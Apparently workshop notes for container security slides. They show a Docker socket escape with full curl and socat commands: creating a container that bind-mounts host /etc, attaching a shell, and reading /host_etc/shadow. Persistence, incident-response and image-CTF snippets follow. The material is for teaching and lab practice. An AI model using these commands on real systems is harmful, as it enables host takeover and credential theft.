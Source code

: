 ```
echo '{"Image":"ubuntu","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/etc/","Target":"/host_etc"}]}' > container.json
```

```
curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d "$(cat container.json)" http://localhost/containers/create
```
Make note of the first 4-5 characters of the ID returned, you'll need it in the next command.
```
curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/<id 4-5 first chars>/start
```

### Slide 63 - Exposed docker socket hijinx (cont.)

```
socat - UNIX-CONNECT:/var/run/docker.sock
```
Make sure you do this carefully and be sure to put the container id in the POST url
```
POST /containers/<id-first-5-chars>/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host:
Connection: Upgrade
Upgrade: tcp


```
After hitting enter twice, the socket should return an http status indicating the connection was upgraded.
```
ls
```
```
cat /host_etc/shadow
```

### Slide 64 - Docker persistence

```
docker run -d --restart always nginx
```


## Module 4 - Container IR - GL,HF.

### Slide 68 - Image CTF
```
docker image pull digitalshokunin/webserver
```

### Slide 75 - Clean ups

```
docker system df
```

